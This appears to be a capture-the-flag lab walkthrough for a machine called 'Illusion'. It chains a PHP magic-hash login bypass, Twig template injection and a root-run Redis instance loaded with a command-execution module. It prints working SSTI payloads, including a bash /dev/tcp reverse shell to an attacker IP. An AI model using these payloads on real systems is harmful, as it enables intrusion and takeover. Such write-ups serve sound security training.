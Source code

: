 # Illusion

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:22 +08
Warning: 192.168.183.203 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.203
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

We can start proxying traffic through Burp.&#x20;

### Web Enum --> Magic Hashes

Port 80 presents a corporate web page with a Login:

<figure><img src="../../../.gitbook/assets/image (3244).png" alt=""><figcaption></figcaption></figure>

The login page is basic and operates in PHP:

<figure><img src="../../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work here. Brute forcing also doesn't work. Since this runs on PHP, we can try some Magic Hashes by submitting this request:

<figure><img src="../../../.gitbook/assets/image (1211).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md" %}

This works because the `Location` header points to `dashboard.php` now.&#x20;

### Orders --> SSTI

The dashboard is simple.

<figure><img src="../../../.gitbook/assets/image (776).png" alt=""><figcaption></figcaption></figure>

If we submit any queries, we can see our order name pop up on the top:

<figure><img src="../../../.gitbook/assets/image (1214).png" alt=""><figcaption></figcaption></figure>

Since this website runs on PHP and the input value is printed out on screen, I wanted to test for SSTI by using `{{7*7}}` as the name of the order, and it works:

<figure><img src="../../../.gitbook/assets/image (1762).png" alt=""><figcaption></figcaption></figure>

On Hacktricks, there's a whole section for Twig (PHP), and I tried their payload to run `id`:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

<figure><img src="../../../.gitbook/assets/image (3317).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI works and we have RCE on the machine. Sending this payload gets us a reverse shell:

```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'")}}
```

<figure><img src="../../../.gitbook/assets/image (1596).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis Creds --> RCE

Within the user's directory, there was a Redis related file that contained a hash:

```
www-data@illusion:/home/james$ ls
local.txt  redis-openssl-gen-pass.txt
www-data@illusion:/home/james$ cat redis-openssl-gen-pass.txt 
sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
```

Checking the listening ports using `netstat` reveals that port 6379 is listening and is likely Redis:

```
www-data@illusion:/home/james$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -   
```

We can port forward this using `chisel`. Afterwards, we can access the Redis database using `redis-cli`. Attempts to run commands fail because we aren't authenticated:

```
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO
NOAUTH Authentication required.
```

In this case, we can try the hash that we found earlier.&#x20;

```
127.0.0.1:6379> AUTH sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
OK
127.0.0.1:6379> INFO
# Server
redis_version:6.2.6
<TRUNCATED>
```

There was nothing within the database that was interesting, but I did want to know who was running it. A quick `ps -elf` reveals that the `root` user is running it:

```
www-data@illusion:/home/james$ ps -elf |grep redis
5 S root         893       1  0  80   0 - 13071 -      10:21 ?        00:00:00 /usr/local/bin/redis-server 127.0.0.1:6379
0 S www-data    3221    3025  0  80   0 -  1625 pipe_w 10:37 pts/0    00:00:00 grep redis
```

Since `root` is running it and we can login, this means that we can also load any module that we want. This repository has a module that works:

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

Compile and upload the `.so` file to the machine. Then, load it within `redis-cli`:

<figure><img src="../../../.gitbook/assets/image (1590).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell via `system.rev <IP> <PORT>`:

<figure><img src="../../../.gitbook/assets/image (1594).png" alt=""><figcaption></figcaption></figure>

Rooted!
